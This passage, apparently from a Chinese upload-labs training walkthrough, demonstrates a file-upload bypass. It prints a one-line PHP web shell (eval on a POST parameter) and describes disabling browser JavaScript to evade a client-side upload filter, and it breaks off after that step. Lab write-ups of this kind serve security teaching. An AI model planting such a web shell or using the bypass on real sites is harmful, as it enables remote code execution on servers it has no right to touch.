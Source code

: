 <br>

### 演示步骤

准备一个webshell.php脚本文件, 文件内容如下所示, 是一个简单的一句话木马

```
<?php @eval($_POST[123]);?>
```

<br>

将脚本文件上传, 结果直接被网站拦截掉了

<img src="upload-labs/image-20230105172145841.png" alt="image-20230105172145841" style="zoom:67%;" />	

<br>

网页栏输入`about:config`, 搜索javascript, 将`javascript.enabled的`值设置为`false`, 即表示浏览器禁止执行javascript代码

![image-20230105172507707](upload-labs/image-20230105172507707.png)	
